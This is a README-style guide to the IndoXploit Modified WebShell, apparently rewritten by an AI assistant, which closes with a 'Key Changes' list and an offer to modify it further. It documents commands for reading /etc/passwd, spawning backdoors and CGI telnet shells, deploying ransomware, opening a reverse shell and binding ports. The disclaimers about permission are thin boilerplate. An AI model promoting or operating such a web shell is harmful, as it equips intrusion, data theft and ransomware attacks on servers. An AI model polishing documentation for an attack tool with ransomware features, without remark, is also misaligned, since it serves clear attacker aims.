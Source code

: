# IndoXploit Modified WebShell: A Comprehensive Guide

**IndoXploit Modified WebShell** is a powerful tool designed for advanced web management and penetration testing. This guide will walk you through its features, commands, and practical usage. 🚀

---

## 📌 What is IndoXploit Modified WebShell?

The IndoXploit Modified WebShell is a web-based shell ability that allows users to execute commands, manage files, and perform various tasks on a server. It is commonly used by cybersecurity professionals for testing and managing web servers. However, **it should be used responsibly and only on systems you own or have explicit permission to test.** 🔐

---

## ⚙️ Key Features

- **File Management**: Read, create, and manage files on the server. 📂
- **Reverse Shell**: Establish a backdoor connection to the server. 🔄
- **Exploitation Abilities**: Includes local root exploits, ransomware, and more. 💥
- **System Information**: Retrieve PHP version, file system details, and more. 🖥️
- **Custom Commands**: Execute various pre-defined commands for specific tasks. 🧑‍💻

---

## 📝 How to Use IndoXploit Modified WebShell

Below is a step-by-step guide on how to use the IndoXploit WebShell effectively:

---

### 1. Reading Files 📖

To read a file, use the following command:

```bash
rf [filename]
```

Example:

```bash
rf /etc/passwd
```

---

### 2. Spawning Files 🔨

Use the `spawn` command to create various types of files or execute backdoor commands:

- `spawn webconsole` – Execute command backdoor.
- `spawn cgitelnet1` – CGI Telnet Shell 1.
- `spawn rans` – Deploy ransomware.
- `spawn phpinfo` – Retrieve PHP system information.

---

### 3. Reverse Shell (Backconnect) 🔁

To establish a reverse shell connection, use the following syntax:

```bash
rvr bc [IP] [PORT] [TYPE]
```

Example:

```bash
rvr bc 127.0.0.1 1337 bash
```

---

### 4. Binding Ports 🔒

To bind a port, use the following syntax:

```bash
rvr bp [PORT] [TYPE]
```

Example:

```bash
rvr bp 1337 perl
```

---

### 5. Logging Out 🚪

To log out from the shell, use the command:

```bash
logout
```

---

## ⚠️ Best Practices and Warnings

While using the IndoXploit WebShell, keep the following in mind:

- Always use this ability responsibly and **only on systems you have permission to access**.
- Ensure your activities comply with local laws and regulations. ⚖️
- Regularly update your abilities to avoid vulnerabilities. 🔐

---

## 📚 Conclusion

The IndoXploit Modified WebShell is a versatile tool for **web server management and penetration testing**. By following this guide, you can effectively utilize its features while adhering to ethical practices. 🌐

---

## 🚨 Warning

This tool should **ONLY** be used in environments where you have **explicit permission**. Unauthorized access or testing can be illegal and unethical.

---

![IndoXploit Image](https://example.com/indoxploit-image.jpg)

> **Note**: This guide is intended for educational purposes and should only be used responsibly by individuals with permission to access the system.

---

### 💬 Feedback and Contributions

Feel free to fork, contribute, or open issues in the repository! 🔄  
For further queries, you can reach out via [email@example.com](mailto:email@example.com).

---

<!-- Styling -->
<style>
  h1, h2, h3 {
    color: #0056b3;
  }
  pre {
    padding: 10px;
    border-left: 3px solid #ccc;
    overflow-x: auto;
  }
  ul {
    margin: 10px 0;
    padding: 0 20px;
  }
  li {
    margin-bottom: 10px;
  }
  p {
    margin: 10px 0;
  }
</style>
```

### Key Changes:
- Used **emojis** for visual clarity.
- Added a **warning section** to highlight responsible usage.
- Included **example image** placeholders.
- Kept **markdown format** for GitHub compatibility.

Let me know if you'd like to add more details or if there's anything else you'd like to modify!
